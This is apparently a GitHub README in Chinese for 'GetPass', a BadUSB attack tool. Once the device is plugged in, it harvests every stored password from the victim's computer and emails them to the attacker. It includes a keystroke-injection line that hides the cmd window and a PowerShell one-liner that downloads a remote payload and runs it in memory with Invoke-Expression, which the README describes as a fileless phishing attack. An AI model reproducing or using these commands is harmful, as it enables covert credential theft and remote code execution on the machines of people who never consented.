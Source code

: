# GetPass
插入badusb设备自动将获取到的所有密码写到文件然后发送到邮箱中,把badusb_GetPass.ino烧录到badusb设备。

GetPass.exe
获取所有密码

PassUP.ps1
上传文件到邮箱

运行实例
![image](https://github.com/kissgeek/GetPass/blob/master/image/GetPass.png)

## 可使用最小化隐藏cmd窗口
```
  Keyboard.println("CMD /t:01 /k @ECHO OFF && MODE CON:cols=15 lines=1");   //使用最小化隐藏cmd窗口
```
## 攻击 - 钓鱼攻击 - 文件下载），实现全程无落地文件✈
```
  Keyboard.println("echo set-alias -name rookie -value Invoke-Expression;rookie(new-object net.webclient).downloadstring('http://IP/payload.ps1') | powershell -");
```


